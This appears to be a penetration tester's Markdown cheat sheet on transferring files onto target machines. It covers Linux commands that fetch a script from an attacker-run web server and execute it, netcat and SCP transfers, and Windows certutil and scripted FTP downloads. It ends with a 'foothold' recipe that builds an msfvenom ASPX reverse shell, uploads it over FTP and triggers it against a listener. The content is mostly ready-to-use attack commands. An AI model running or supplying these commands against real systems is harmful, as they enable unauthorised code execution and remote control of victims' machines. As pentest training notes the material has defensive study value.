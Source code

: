 ## Linux
- `python3 -m http.server 80`
   - start web server from location file is at
- `wget http://ip/file.sh`
- OR
- `curl -O http://10.10.10.10/file.sh`
  - `chmod +x file.sh`
  - `./file.sh`
 
#### Netcat
- Local host
  - `nc -nvlp 4444 < file`
- Target host
  - `nc <hostip> 4444 > file`
- If get this error: This is nc from the netcat-openbsd package. An alternative nc is available
  - run this: `nc -l 1234 > file.sh`
 
#### SSH
- for a better shell, can try ssh
- .ssh files in /home/user -> identify with `ls -la`
- create keypair
  - ssh-keygen
- Can use SCP now
  - `scp /path/to/source/file.ext username@10.0.0.10:/path/to/destination/file.ext`

 ## Windows
 - Doesnt typically have netcat, wget or curl

#### Certutil
- certutil.exe -urlcache -f http://10.10.10.10/file.txt file.txt

#### FTP
- try ftp 10.10.10.10
 - Can create a file with the following:
   - `echo open 10.10.10.10> ftpreq.txt`
   - `echo USER username>> ftpreq.txt`
   - `echo password>> ftpreq.txt`
   - `echo bin>> ftpreq.txt`
   - `echo GET wget.exe>> ftpreq.txt`
   - `echo bye>> ftpreq.txt`
  - Run `ftp -v -n -s:ftpreq.txt`

## Original foothold:
- Manual shell msfvenom
- `Msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT=4444 -f aspx > shell.aspx`
- Put it into the FTP
- Set up a listener and navigate to it via firefox
